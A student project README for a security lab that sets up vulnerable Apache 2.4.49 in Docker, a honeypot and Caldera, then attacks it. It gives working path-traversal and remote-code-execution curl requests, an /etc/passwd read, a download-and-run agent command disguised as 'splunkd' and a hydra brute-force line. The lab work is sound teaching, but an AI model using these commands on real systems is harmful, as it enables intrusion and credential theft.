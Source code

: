 # ICS344-Project-Commands-and-codes

How we did the setup for everything in the project

 # 1-Docker:
the reason we wanted to install docker is because we needed to downgrade our apache service to something with known vulnerabilities we used the following commands to install it on the vm.

-sudo apt-get install -y docker.io

-sudo systemctl start docker & sudo systemctl enable docker

-docker –version (to make sure it is correctly installed)
 # 2-Apache 2.4.49:
 after installing docker we need to make a dockerfile with all the files and dependencies will go through the steps we did to set it up correctly
-nano DockerFile
-write in the dockerfile the following (FROM debian:latest
RUN apt-get update && \
    apt-get install -y wget build-essential libpcre3 libpcre3-dev libssl-dev libexpat1-dev && \
    wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz && \
    wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz && \
    wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz && \
    tar -xzf httpd-2.4.49.tar.gz && \
    tar -xzf apr-1.7.0.tar.gz && \
    tar -xzf apr-util-1.6.1.tar.gz && \
    mv apr-1.7.0 httpd-2.4.49/srclib/apr && \
    mv apr-util-1.6.1 httpd-2.4.49/srclib/apr-util && \
    cd httpd-2.4.49 && \
    ./configure --enable-so --enable-ssl --with-mpm=event && \
    make && \
    make install

EXPOSE 80
CMD ["/usr/local/apache2/bin/httpd", "-D", "FOREGROUND"])
- after saving the file we need to build the image the containers will be using with the following command 'sudo docker build -t apache-2.4.49'
- -then use 'sudo docker run -d -p 8080:80 apache-2.4.49' to make the container with apache running on port 8080

# 3- Honeypot:
for the honeypot we picked HoneyUp which works okay with our service, but to be able to use honeyup we need to install nginx among other things to be able to fully use it and have logs to read after.

- installing nginx using the following command sudo apt install nginx -y

- using this command  sudo systemctl start nginx to make sure everything is running okay

- we need the rust toolchain which we installed using curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

- and we needed rustup and cargo which we installed using sudo apt install cargo && sudo apt install rustup

- now we can install honeyup using git clone https://github.com/LogoiLab/honeyup.git

- cargo build –release so we can compile it.

# 4-Attack Tools:
we needed to install some tools that we might use for attacks and we used the following command

-sudo apt install nmap metasploit-framework hydra gobuster nikto -y
# 5-Caldera:
Caldera is a necessary part to complete the project so we followed these commands to install it correctly and making sure it runs without errors.

-git clone https://github.com/mitre/caldera.git --recursive

-pip3 install -r requirements.txt

-python3 server.py --insecure –build (use --build if it is running for the first time, after the first time you can remove it and it will run okay).

- to be able to run operations in caldera we need an agent the following code we used to make an agent (server 'http: //192. 168.112.129:8888' ;
curl-s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download › splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v)

# 6-Attacks

-we did the nmap scan on the target using (nmap --script vuln -p 8080 192.168.206.129).

-one of the vulnerabilities in apache 2.4.49 is remote code execution we used this code to attack curl -X POST "http://192.168.206.129:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo RCE Test"

-one of the vulnerabilities in apache 2.4.49 is path traversal we used this code to attack curl http://192.168.206.129:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

-one of the vulnerabilities in apache 2.4.49 is the fact that http trace is enabled we cannot really use it as an attack without having something else to use it with but we did use a command to see if it is enabled or not with curl -X TRACE http://192.168.206.129:8080 -I

-using kali tools we managed to brute force our apache server using hydra tool with the following code hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 192.168.206.129 -s 8080 http-get / 


